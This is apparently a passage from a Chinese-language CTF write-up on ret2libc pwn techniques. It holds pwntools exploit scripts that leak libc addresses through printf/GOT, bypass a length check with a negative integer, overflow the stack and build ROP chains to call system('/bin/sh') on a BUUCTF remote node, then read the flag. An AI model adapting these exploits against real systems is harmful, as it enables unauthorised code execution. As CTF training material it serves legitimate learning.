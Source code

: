    ```python
   #libc = LibcSearcher('read',addr)
   libcbase = addr - libc.sym['read']
   print("libcbase:",hex(libcbase))
   sys_addr = libcbase + libc.sym['system']
   str_sh   = libcbase + next(libc.search(b'/bin/sh'))
   print(hex(sys_addr),hex(str_sh))
   
   payload = b'a'*(offset)+p64(pop_rdi_ret)+p64(str_sh)+p64(sys_addr)
   p.sendline(payload)
   p.sendline(b'cd home')
   p.sendline(b'cd babyrop2')
   p.sendline(b'cat flag')
   p.interactive()
   ```

   ![image-20240602202650369](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406022026480.png)

#### 3. printf函数32位：

##### 实例：

1. 题目地址：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#pwn2_sctf_2016)

2. vuln函数给了一个整数溢出（绕过）+栈溢出漏洞，用负数绕过后栈溢出直接利用printf函数泄漏libc基地址，再获取sys和bin构造ROP链。

3. EXP：

   ```python
   #!/usr/bin/env python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   p = remote('node5.buuoj.cn',28217)
   elf = ELF('./pwn2_sctf_2016')
   libc = ELF('./libc-2.23.so')
   got = elf.got['printf']
   plt = elf.plt['printf']
   print(hex(got),hex(plt))
   
   p.recvuntil(b'How many bytes do you want me to read?')
   p.sendline(b'-1')
   p.recvuntil(b'''data!\n''')
   
   main_addr = 0x080485B8
   s_addr = 0x08048702
   
   payload = b'a'*(0x2c+4)+p32(plt)+p32(main_addr)+p32(s_addr)+p32(got)
   p.sendline(payload)
   p.recvuntil(b'You said:')
   addr = u32(p.recvuntil(b'\xf7')[-4:])
   print(hex(addr))
   
   #libc = LibcSearcher('printf',addr) #远程的LibcSearcher一个都打不通，无语了
   libc_base = addr - libc.sym['printf']
   sys_addr = libc_base + libc.sym['system']
   sh_addr = libc_base + next(libc.search(b'/bin/sh'))
   print(hex(libc_base),hex(sys_addr),hex(sh_addr))
   
   p.sendline(b'-1')
   p.recvuntil(b'''data!\n''')
   
   payload = b'a'*(0x2c+4)+p32(sys_addr)+p32(main_addr)+p32(sh_addr)
   p.sendline(payload)
   
   p.sendline(b'cat flag')
   ```